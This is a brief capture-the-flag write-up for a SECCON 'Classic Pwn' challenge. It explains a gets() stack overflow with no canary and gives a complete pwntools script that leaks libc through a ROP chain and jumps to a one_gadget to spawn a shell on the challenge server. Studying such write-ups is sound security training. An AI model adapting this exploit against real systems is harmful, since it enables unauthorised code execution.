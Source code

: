 ## Classic Pwn (Pwn)

### Solution
The programe use `gets()` to read input into a stack buffer, there's no canary, so we can easily use ROP to leak libc and spawn a shell.

```python
#!/usr/bin/env python3

from pwn import *
context(arch="amd64", terminal=["tmux", "neww"])

b = ELF("./classic")
libc = ELF("./libc-2.23.so")
rop = ROP(b)

one_gadget = 0x45216

payload = b"a" * 72
payload += p64(rop.rdi.address) # puts@plt(puts@got)
payload += p64(b.got[b'puts'])
payload += p64(b.plt[b'puts'])
payload += p64(b.symbols[b'main'])

#r = process("./classic")
r = remote("classic.pwn.seccon.jp", 17354)
r.sendline(payload)
r.recvuntil("!!\n")
puts = u64(r.recv(6).ljust(8, b"\x00"))

payload = b"a" * 72
payload += p64(puts - libc.symbols[b'puts'] + one_gadget)
r.sendline(payload)

r.interactive()
```
